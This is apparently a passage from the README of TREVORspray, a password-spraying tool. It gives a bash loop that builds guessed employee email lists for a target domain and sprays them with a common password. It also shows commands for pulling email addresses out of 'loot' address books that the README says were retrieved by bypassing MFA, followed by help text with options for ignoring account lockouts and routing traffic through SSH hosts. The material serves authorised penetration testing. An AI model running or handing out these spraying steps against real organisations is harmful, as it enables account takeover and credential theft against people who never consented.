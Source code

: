## Example: Find valid usernames without OSINT >:D
```bash
# clone wordsmith dataset
wget https://github.com/skahwah/wordsmith/releases/download/v2.1.1/data.tar.xz && tar -xvf data.tar.xz && cd data

# order first initial by occurrence
ordered_letters=asjmkdtclrebnghzpyivfowqux

# loop through first initials
echo -n $ordered_letters | while read -n1 f; do
  # loop through top 2000 USA last names
  head -n 2000 'usa/lnames.txt' | while read last; do
    # generate emails in f.last format
    echo "${f}.${last}@evilcorp.com"
  done
done | tee f.last.txt

trevorspray -u f.last.txt -p 'Welcome123'
```

## Extract data from downloaded LZX files
When TREVORspray successfully bypasses MFA and retrieves an Offline Address Book (OAB), the address book is downloaded in LZX format to `~/.trevorspray/loot`. LZX is an ancient and obnoxious compression algorithm used by Microsoft.
~~~bash
# get libmspack (for extracting LZX file)
git clone https://github.com/kyz/libmspack
cd libmspack/libmspack/
./rebuild.sh
./configure
make

# extract LZX file
./examples/.libs/oabextract ~/.trevorspray/loot/deadbeef-ce01-4ec9-9d08-1050bdc41131-data-1.lzx oab.bin
# extract all strings
strings oab.bin
# extract and dedupe emails
egrep -oa '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,6}' oab.bin | tr '[:upper:]' '[:lower:]' | sort -u
~~~

## TREVORspray - Help:
```
$ trevorspray --help
usage: trevorspray [-h] [-m {owa,okta,anyconnect,adfs,msol}] [-u USERS [USERS ...]] [-p PASSWORDS [PASSWORDS ...]] [--url URL] [-r DOMAIN] [-t THREADS] [-f] [-d DELAY]
                   [-ld LOCKOUT_DELAY] [-j JITTER] [-e] [-nl] [--ignore-lockouts] [--timeout TIMEOUT] [--random-useragent] [-6] [--proxy PROXY] [-v] [-s USER@SERVER [USER@SERVER ...]]
                   [-i KEY] [-b BASE_PORT] [-n] [--interface INTERFACE] [--subnet SUBNET]

A password sprayer with the option to load-balance traffic through SSH hosts

optional arguments:
  -h, --help            show this help message and exit

basic arguments:
  -m {owa,okta,anyconnect,adfs,msol}, --module {owa,okta,anyconnect,adfs,msol}
                        Spray module to use (default: msol)
  -u USERS [USERS ...], --users USERS [USERS ...]
                        Usernames(s) and/or file(s) containing usernames
```